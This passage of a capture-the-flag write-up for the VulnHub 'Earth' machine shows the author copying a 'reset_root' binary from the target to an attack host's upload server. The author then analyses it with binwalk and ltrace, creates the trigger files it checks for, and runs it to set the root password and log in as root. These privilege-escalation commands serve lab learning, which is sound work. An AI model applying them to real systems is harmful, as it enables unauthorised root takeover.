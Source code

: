 We can see on our attack host that this file has been uploaded.
```bash
┌──(pentester㉿kali)-[/VulnHub/Earth/Misc Files]
└─$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.0.2.4 - - [10/Sep/2024 23:57:00] [Uploaded] "reset_root" --> /VulnHub/Earth/Misc Files/reset_root 
10.0.2.4 - - [10/Sep/2024 23:57:00] "POST /upload HTTP/1.1" 204 -
```
Since this appears to be an uncommon binary we can start our analyses by understanding which built-in OS command is been run by the binary. We can do this using **binwalk** which is a tool for searching a given binary image for embedded files and executable code.
```                                                                                                                                                            
┌──(pentester㉿kali)-[/VulnHub/Earth/Misc Files]
└─$ binwalk reset_root 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 64-bit LSB executable, AMD x86-64, version 1 (SYSV)
8312          0x2078          Unix path: /usr/bin/echo 'root:Earth' | /usr/sbin/chpasswd
21385         0x5389          Unix path: /usr/lib/gcc/x86_64-redhat-linux/11/../../../../lib64/crt1.o
```
We can see that the reset_root executable changes the root password to Earth. Also, we can note that uses external libraries. Since binwalk does not give us any information on how these libraries are used, we can use **ltrace**. ltrace intercepts and records dynamic library calls which are called by an executed process and the signals received by that process.
```
┌──(pentester㉿kali)-[/VulnHub/Earth/Misc Files]
└─$ ltrace ./reset_root 
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                                      = 38
access("/dev/shm/kHgTFI5G", 0)                                                                   = -1
access("/dev/shm/Zw7bV9U5", 0)                                                                   = -1
access("/tmp/kcM0Wewe", 0)                                                                       = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                                      = 44
+++ exited (status 0) +++
```
We see that the ```access()``` function from the C standard library is used by the executable. This function is used to check the accessibility of a file. The access function takes a file/folder name and a mode, The 0 in here means it is checking for the existence of the file. From the message written by the ```puts()``` we can understand that if the checking process fails the reset will also fail. Our objective is to reset the root password to Earth to take over the machine. We can do this by creating fake files on our target having these names.
```bash
mkdir /dev/shm
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
ls /dev/shm
Zw7bV9U5
kHgTFI5G
touch /tmp/kcM0Wewe
```
Once the files are created we can run the executable which will reset the root password to Earth and now use this password to log in as the root user.
```
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
su root
```